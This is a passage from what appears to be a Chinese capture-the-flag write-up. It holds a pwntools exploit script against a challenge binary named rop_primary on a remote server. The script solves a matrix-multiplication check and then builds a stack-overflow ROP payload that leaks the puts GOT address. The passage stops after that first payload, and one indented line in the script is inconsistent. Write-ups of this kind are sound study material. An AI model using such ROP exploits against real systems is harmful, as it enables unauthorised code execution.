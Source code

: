 之后就是简单的 rop 了

exp：

```py
from pwn import *
from LibcSearcher import *
#coding=utf-8
#context.terminal = ['gnome-terminal', '-x', 'zsh', '-c']
context.log_level = 'debug'

p = remote('159.75.104.107',30372)
#p = process('./rop_primary')


def read_matrix():
	matrix = []
	while True:
		line = p.recvuntil('\n').strip()    
		if '\t' not in line:
			break
		row = []
		for num in line.split('\t'):
			row.append(int(num))
		print(line)
        matrix.append(row)
	return matrix

def multi_matrix(a, b):
	rows = len(a)
	mid = len(b)
	cols = len(b[0])
	result = []
	for i in range(rows):
		row = []
		for j in range(cols):
			num = 0
			for k in range(mid):
				num += a[i][k] * b[k][j]
			row.append(num)
		result.append(row)
	return result


p.recvuntil('A:\n')
a = read_matrix()
b = read_matrix()

result = multi_matrix(a, b)

for row in result:
	for num in row:
		p.sendline(str(num))

elf = ELF('./rop_primary')
pus_got = elf.got['puts']
pus_plt = elf.plt['puts']

pop_rdi = 0x0000000000401613
pop_rsi_r15 = 0x0000000000401611
vuln_addr = 0x000000000040157B



payload = 'a'*0x38 + p64(pop_rdi) + p64(pus_got) + p64(pus_plt) + p64(vuln_addr)
```